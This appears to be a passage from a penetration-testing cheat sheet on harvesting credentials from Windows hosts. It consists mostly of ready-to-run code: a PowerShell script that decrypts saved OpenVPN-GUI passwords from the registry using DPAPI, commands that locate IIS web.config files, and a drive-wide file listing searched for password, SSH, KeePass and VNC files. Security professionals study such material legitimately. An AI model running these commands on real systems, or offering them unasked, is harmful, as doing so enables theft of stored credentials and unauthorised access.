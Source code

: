 ```
Add-Type -AssemblyName System.Security
$keys = Get-ChildItem "HKCU:\Software\OpenVPN-GUI\configs"
$items = $keys | ForEach-Object {Get-ItemProperty $_.PsPath}
​
foreach ($item in $items)
{
  $encryptedbytes=$item.'auth-data'
  $entropy=$item.'entropy'
  $entropy=$entropy[0..(($entropy.Length)-2)]
​
  $decryptedbytes = [System.Security.Cryptography.ProtectedData]::Unprotect(
    $encryptedBytes, 
    $entropy, 
    [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
 
  Write-Host ([System.Text.Encoding]::Unicode.GetString($decryptedbytes))
}
```

### <mark style="color:orange;">IIS web server configurations</mark>

```
Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
C:\inetpub\wwwroot\web.config

Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
Get-Childitem –Path C:\xampp\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
```

### <mark style="color:orange;">search files for credentials</mark>

not as straight forward as linux, we first have to create a listing of all directories in the drive we want (usually C drive):

```
dir /b /a /s c:\ > cdirs.txt

/b → Uses bare format (no heading information or summary)
/a → Displays files with specified attributes
/s → Displays files in specified directory and all subdirectories
```

then we search this file to find directories and files that might be interesting:

```
type cdirs.txt | findstr /i password
type c:\rto\c-dirs.txt | findstr /i ssh
type c:\rto\c-dirs.txt | findstr /i kdbx
type c:\rto\c-dirs.txt | findstr /i vnc
```
